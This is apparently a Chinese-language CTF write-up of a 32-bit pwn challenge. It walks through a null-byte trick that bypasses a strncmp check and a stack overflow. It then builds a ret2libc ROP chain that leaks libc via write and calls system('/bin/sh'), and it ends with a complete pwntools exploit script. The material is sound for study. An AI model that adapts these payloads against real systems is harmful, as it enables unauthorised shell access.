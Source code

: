 ## 0x001 程序分析

分析main函数

![](1.png)

在main函数中，首先调用了函数 sub_80486BB()，然后读取 **/dev/urandom** 文件获取 4 位的随机数，然后调用 sub_804871F() 和sub_80487D0()。

**sub_80486BB()函数内容**

![](2.png)

该函数中使用的定时器，如果程序运行超时，则会报错。

**sub_804871F()函数内容**

![](3.png)

该函数中，首先将随机数以 **有符号长整型数** 格式化为字符串保存到 **s** 中，然后接收输入到 **buf**，同 **s** 进行比较，如果相同，则返回 **buf** 的第7位。

**和sub_80487D0()函数内容**

![](4.png)

该函数的参数为 **sub_804871F()** 函数的返回值，如果值为 127，则接收输入大小为 200 字符，如果值不为 127，则接收输入的长度以参数大小为准。

## 0x002 漏洞分析

很明显可以看到，在 **和sub_80487D0()** 函数中存在栈溢出，因为如果函数参数大于231，则会超过 **buf** 的最大长度，如果输入长度大于 235，则会覆盖返回地址。

## 0x003 漏洞利用

怎么才能让参数大于 231 呢？再来分析下 **sub_804871F()** 函数内容。

要想让 **sub_804871F()** 有返回值，则需要通过 **strncmp** 的比较，而随机数的值我们又无法获得。那么此时就需要对这里面的三个系统函数的特点进行分析利用。

> **strncmp** 函数：如果比较的长度为 0 时，比较结果就为 0。

> **strlen** 函数：判断字符串结束的标志为  **\x00** 

> **read** 函数：输入结束后会在输入内容最后添加 **\x0a** 作为结束符。

通过这三个函数的特点，我们就可以构造 payload 绕过 **strncmp** 校验，并且可以随机设置函数的返回值。

原理：在read处可以输入内容 "\x00\xFF\xFFxFF\xFFxFF\xFFxFF"，那么read函数读取到的长度就是 8，存放在 **buf** 中，而使用 **strlen** 函数计算  **buf** 的长度时，获得的字符串长度为 0，那么由于 **strncmp** 函数比较的字节长度是通过 **strlen** 函数获取的，因此比较的结果始终为 0，可以成功绕过随机数比较，并且返回的数值可通过输入的内容进行控制。

构造payload1如下：
```
payload1 = b"\x00" + b"\xff" * 7
```

通过checksec查看

![](5.png)

程序开启了 **NX** 和 **RELRO**，并且程序中没有调用 **system** 函数，因此考虑构造ROP，所幸题目给了libc文件。

构造ROP，首先使用 **write** 泄漏函数的真实地址
```
payload2 = b"A" * 235 + p32(write_plt) + p32(ret_addr) + p32(1) + p32(puts_got) + p32(4)
```

注意：这里使用的 **ret_addr** 地址为 **0x080487d0**，为什么不选择返回到 **main** 函数呢？由于这个程序里有定时器，返回到 **main** 函数会多一步 **send** 和 **recv**，会影响运行时间。

有了函数的真实地址，即可计算libc基地址、system函数真实地址、字符串"/bin/sh"真实地址。最后构造ROP，执行system("/bin/sh")命令，获取系统去权限。
```
payload3 = b"A" * 235 + p32(system_addr) + b"AAAA" + p32(bin_sh_addr)
```

最终exp如下：
```
from pwn import *

p = process("./pwn")
# p = remote("node4.buuoj.cn", 26005)
elf = ELF("./pwn")
libc = ELF("./libc-2.23.so")

puts_got = elf.got["puts"]
write_plt = elf.plt["write"]
ret_addr = 0x080487d0

payload1 = b"\x00" + b"\xff" * 7
p.sendline(payload1)

payload2 = b"A" * 235 + p32(write_plt) + p32(ret_addr) + p32(1) + p32(puts_got) + p32(4)
p.recvuntil("Correct\n")
p.sendline(payload2) 

puts_addr = u32(p.recv())
libcbase = puts_addr - libc.symbols["puts"]
system_addr = libcbase + libc.symbols["system"]
bin_sh_addr = libcbase + next(libc.search(b"/bin/sh"))

payload3 = b"A" * 235 + p32(system_addr) + b"AAAA" + p32(bin_sh_addr)
p.sendline(payload3)

p.interactive()
```

疑问：最后执行system("/bin/sh")命令的payload3中，为何要填充四个任意字符？